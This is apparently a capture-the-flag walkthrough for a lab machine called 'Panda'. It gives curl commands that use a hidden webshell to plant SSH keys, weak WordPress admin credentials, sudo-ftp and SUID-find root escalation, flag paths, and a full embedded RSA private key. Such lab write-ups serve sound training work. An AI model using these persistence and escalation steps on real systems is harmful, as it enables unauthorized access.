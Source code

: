 # Panda KOTH machine

Can get in straight with tigress's key below

## Foothold 1 as user shifu

Easiest way in is via a cmd shell in a hidden dir on port 80:

```http://<ip>/06d63d6798d9b6c2f987f045b12031d6/index.php```

There is no ncat on the machine. But shell runs as shifu user so can create a ssh profile to ssh in with:

```
mkdir ~/.ssh
echo ssh-rsa [pubkey] > ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

This can be done via pure curl:

```
curl -d 'cmd=mkdir+%7E%2F.ssh' http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
curl -d "cmd=echo+$(cat ~/.ssh/id_ed25519.pub)+%3E+%7E%2F.ssh%2Fauthorized_keys" http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
curl -d 'cmd=chmod+600+%7E%2F.ssh%2Fauthorized_keys' http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
curl -d 'cmd=chmod+700+%7E%2F.ssh' http://$RHOST/06d63d6798d9b6c2f987f045b12031d6/index.php
```

then `ssh shifu@<ip>`

## Foothold 2 as user shifu

On port :80/wordpress is a wordpress instance with a single user, `po`. This user has the password `password1` and is the wordpress administrator. One under admin, the 404.php page of the theme can be altered to added a webshell payload.

## Paths to Root

- shifu can run `ftp` as sudo; to privesc from shifu, can use `sudo /usr/bin/ftp` then `!/bin/sh`
- `find` has the suid bit set

there is no chattr on the box

## XXE on 1337

Port 1337 hosts a registration form that is vulnerable to XXE - not too sure how to use it for a foothold though

## flags

- /root/.flag
- /home/po/flag.txt
- /home/shifu/flag.txt
- /home/tigress/flag.txt
- /var/www/html/flag/index.html (hex and b64)
- /var/www/html/06d63d6798d9b6c2f987f045b12031d6/flag
- /srv/samba/anonymous/binary (strings)

## Tigress's id_rsa

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0rJZ4ALm6AgaONlRb5YmyTYRqXkI6c/+TGg9biygTS1GiYFC
E+jMqk+q9nsl0cWFjns4Z2MA5uxiPzix7LcywiB6zScGcSkYaqKCFoOFT3VlpQYh
hhSHpPyv2Td6x6D1VhkYC/B2ilQsJJyqbGQ10JnP9wo1USzh21bsBPBs+wz6dnKZ
oY7BWkE1PwBfjhEVEFBSz5XfmcoOK2RQqAJ1YYWoxHA0fJ88pj7PahIGkGrq6g/Z
8AGZhYdZBSl91gMAnRjOrYIq8ufnJNw0YQpA78h9VDJUfXXfEe3EGCTpmcOH0NMa
RyoMS9qreJZ1NgwuTlFJwp5zj9RMRDBqnv/hcQIDAQABAoIBAAOyeX1Cz8Z2je89
cP5iRh/1wO2WYB+qNK4mjh1mzxFLoBc9m2k6Bo1ehIN6ubkqnCNZ6i12QUfMEhVF
62lZ9ZwOcdkzvBs0O2dznpDCkg5I4xW4O9JcfdzZSkSngpIKMwPlwNREze+zdmrW
DO+F+qPEby/IkBLylKwCpHWZum/VTEj1fYCJVHbZf5Pycdg0nOFHigGdpnJW18LI
yL9Firkc4TVsEd1a05THeENvp2nCnreIpBkyf32lOZB7M6AWFsROY1UApLtN7KS/
YPGnL2aftlCfrCqqj5WZQ7AUPAQPqgW+LYr+VaIRHyeRQnK1SFYZfV9PiYC3eloU
U8zMAxkCgYEA/eEHG1fjHb9v5U5leUyQDka9T35+Fq4P+sJh3c3bAQgwBQ0t5576
ZKobHwJZBXGE44gr8DmYnQWRymWWTly0weBMRv6kLCchU9BTGg0SsAEVKxtq+VUp
UyC/N4C0eWl3OAl4JsCpj0z/uc3oMryFyWr7lBajOwrKX0tsLcBqXvMCgYEA1HT4
FFHxwrrhsKztT6CtwHePnDbmzAoo6aSMIAeAf8dkQpddLAw85lHVGUZZie7OxXS7
euOwg15omV+9AxxRne0SEIAf8ldtiyquH+LaZHQElkPpdj2B6rznBywovLNDY4AT
biUGze+MwlH9gUHuyaULB9vcw9Dz30S/XgKwPwsCgYEAg1mQZroy3Co2h0nnQDm3
cltxCJbmP2+w/sjg/3PI8iC9T2/BJ0veOoSz4XhCfIl9+oZyTShPaDYAdtnWSRa3
wnL8o+KNJ/bazFVFGX5YA82bmSDnWLaR2dtgcyPYu9QwBUMI8evODkEFMalxkAZv
pYT/Ql/v9dUgXOtVvdoGbrcCgYEA0k6/TA4ZzXOE+YkUmOArXvx7cl1+dbgQ68dw
1jvW3aYY/zoqhvHOTwfudEiJVdrJX/i/pVRCZKhNzpVQ2wVrXXNRkHfkJ9aXn00u
dG3xVcLqz3yGW/9i3WUFJLp30ON678HWeg+4/p4Erk7PLOaBY6Y2lx7zF/t9jSPW
c08h/CUCgYA2cFZCvohbd27q0BDVHZQhAhLIRnRexTL4urF7Y+BzyGDiiPKcFYM8
44Ruf0x4Yvkjx1k4OR1njTKSmnPA4FSu/jzUH0KsVPUe0Kyx9W6VVyw1LLYuj/iY
KQCo0DuuJ1a3H0niYraMvmpiF73XW72l8SZGw+xT+741AxqZ5ljRpQ==
-----END RSA PRIVATE KEY-----
```
